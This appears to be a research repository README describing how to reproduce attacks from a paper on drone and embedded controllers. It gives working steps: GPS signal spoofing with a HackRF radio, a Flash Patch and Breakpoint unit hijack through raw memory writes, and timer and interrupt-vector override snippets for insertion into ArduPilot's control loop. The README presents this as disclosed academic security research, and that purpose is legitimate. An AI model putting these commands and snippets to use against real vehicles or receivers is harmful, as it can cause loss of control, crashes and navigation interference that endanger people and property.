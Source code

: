 # Attack cases mentioned in the paper
Code for conducting attacks mentioned in the paper. We have 2 zero-day attacks which have been reported to respective authorities as well. 

## GPS Spoofing
### Prerequisite
1) You need to have a software-defined radio like <a href="https://greatscottgadgets.com/hackrf/one/" target="_blank">HackRF One</a> which could simulate GPS L1 signal. 
2) Install HackRF package
```bash
sudo apt-get update -y
sudo apt-get install -y hackrf
```

3) Install <a href="https://github.com/osqzss/gps-sdr-sim" target="_blank"> GPS position simulator</a>


### How to execute it?
1) You need to specify the GPS satellite constellation through a GPS broadcast ephemeris file. The daily GPS broadcast ephemeris file (brdc) is a merge of the individual site navigation files into one. The archive for the daily file is:ftp://cddis.gsfc.nasa.gov/gnss/data/daily/

2) Find the latest brdc file for navigation data creation

3) When you use <a href="https://github.com/purseclab/M2MON/tree/main/attacks/GPS_spoofing" target="_blank"> brdc3540.14n</a> as an ephemeris file, you can generate GPS messages by using the command in the below. 
```bash
./gps-sdr-sim -b 8 -e brdc3540.14n -l 31.286502,121.032669,100
```

4) gpssim.bin will be created and the file needs to transferred

5) Spoof the GPS messages 
```bash
hackrf_transfer -t gpssim.bin -f 1575420000 -s 2600000 -a 1 -x 0
```

## FPB (Flash Patch and Breakpoint Unit) attack
### Prerequisite
1) Your main system-on-Chip must be equipped with a FPB unit. We used <a href="https://www.st.com/en/microcontrollers-microprocessors/stm32f427-437.html" target="_blank">STM32F427</a>.

2) RTOS can execute shell commands (e.g., mw and mh).

### How to execute it?
1) Connect NSH (NuttShell) on a command window
```bash
module load nsh
nsh start
```
2) Activate the FPB unit and execute a new command
```bash
mw 0xE0002004=0x20000000 1
mh 0x20000014=0xe7fe 1
mw 0xE0002000=0x1 1
mw 0xE000201C=0x0807efb9 1
```

## Timer attack
### Prerequisite
1) You need to know a value of the SysTick register (STK_LOAD). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the timer attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000E014: STK_LOAD’s register address
volatile unsigned int *Timer_attack = (volatile unsigned int *) 0xE000E014;

// Increasing the value to 2X of the original value (0x2903F) set by the RTOS
*Timer_attack = 335998;
```

2) You can confirm the effect of the timer attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/timer_attack/result.png">

## IRQ override attack
### Prerequisite
1) You need to know a value of the vector table offset register (VTOR). You can probably find such a register address on datasheet or source code of the RTOS (NuttX).

### How to conduct the IRQ attack?
1) Insert the code snippet in the below to a control loop (e.g., Copter::one_hz_loop() in ArduPilot)
```bash
// 0xE000ED08: VTOR’s register address
volatile unsigned int *VTOR_attack = (volatile unsigned int *) 0xE000ED08;
::printf("Original VTOR:0x%x\n", *VTOR_attack);

// Overriding VTOR
// 3758153728: 0xE000E000 in hex
*VTOR_attack = 3758153728;
::printf("Modified VTOR:0x%x\n", *VTOR_attack);
```

2) You can confirm the effect of the IRQ attack after booting.
<img src="https://github.com/purseclab/M2MON/blob/main/attacks/IRQ_attack/result.png">

